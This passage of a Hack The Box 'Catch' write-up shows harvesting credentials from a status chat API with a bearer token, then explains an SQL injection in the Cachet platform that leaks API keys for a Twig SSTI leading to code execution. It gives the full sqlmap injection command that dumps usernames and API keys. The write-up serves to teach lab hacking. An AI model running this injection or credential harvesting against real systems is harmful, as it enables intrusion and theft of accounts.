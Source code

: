 
#### Chat of Status room

```shell
┌──(kali㉿kali)-[~/Desktop/Catch]
└─$ curl -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" http://catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2014  100  2014    0     0   2948      0 --:--:-- --:--:-- --:--:--  2953

<SNIP>
  {
    "id": "61b87241fe190b466d476bfd",
    "text": "@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
    "posted": "2021-12-14T10:30:25.108Z",
    "owner": "61b86aead984e2451036eb16",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b8702dfe190b466d476bfa",
    "text": "Here are the credentials `john :  E}V!mywu_69T4C}W`",
    "posted": "2021-12-14T10:21:33.859Z",
    "owner": "61b86f15fe190b466d476bf5",
    "room": "61b86b28d984e2451036eb17"
  },
<SNIP>
```

And We found credentials of user **John** for **Status** page.

```text
john :  E}V!mywu_69T4C}W
```



## Getting Shell
The Cachet platform used had some vulnerabilites which we can exploit to gain RCE on the platform.

Reference : 
- [CTFiot](http://www.ctfiot.com/18914.html)
- [SQLi on Cachet](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)
					
So basically Cachet have a **SQLi** Vulnerability using which we can get `api_keys` of users, using those `api_keys` we can execute our `Twig SSTI` payload and gain RCE.

So after using **SQLmap** to enumrate the Database got the `api_keys`.

```shell
┌──(kali㉿kali)-[~/Desktop/Catch]
└─$ sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C username,api_key --dump
```
